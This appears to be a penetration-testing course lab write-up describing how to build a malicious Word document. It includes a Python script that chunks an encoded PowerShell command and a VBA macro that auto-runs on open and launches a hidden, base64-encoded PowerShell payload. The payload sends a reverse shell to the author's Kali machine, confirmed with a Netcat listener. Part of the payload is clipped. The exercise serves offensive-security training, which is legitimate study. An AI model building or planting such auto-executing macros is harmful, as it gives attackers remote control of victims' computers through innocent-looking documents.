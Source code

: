 ### 13.3.2.1 Exercise
#### 1. Use the PowerShell payload from the HTA attack to create a Word macro that sends a reverse shell to your Kali system.

- Split command from HTA attack using Python

  ```python
  # Python script to split up command
  str = "HTA Powershell Command here"
  n = 50
  for i in range(0, len(str), n):
  	print "Str = Str + " + '"' + str[i:i+n] + '"'
  ```
  
- Took split command and inserted into macro in Word doc

  ```vbscript
  ' Basic VB script to auto-run a command on open
  Sub AutoOpen()
  MyMacro
  End Sub
  Sub Document_Open()
  MyMacro
  End Sub
  Sub MyMacro()
      
      Dim Str As String
      
      Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
  Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
      ------CLIPPED------
  Str = Str + "kAHAAPQBbAFMAeQBzAHQAZQBtAC4ARABpAGEAZwBuAG8AcwB0A"
  Str = Str + "GkAYwBzAC4AUAByAG8AYwBlAHMAcwBdADoAOgBTAHQAYQByAHQ"
  Str = Str + "AKAAkAHMAKQA7AA=="
  
      
      CreateObject("Wscript.Shell").Run Str
      
  End Sub
  
  ```

- Started Netcat listener.  Saved doc and reopened to get reverse shell:
  ![image-20200710221251676](.13.3.2.1.assets/image-20200710221251676.png)

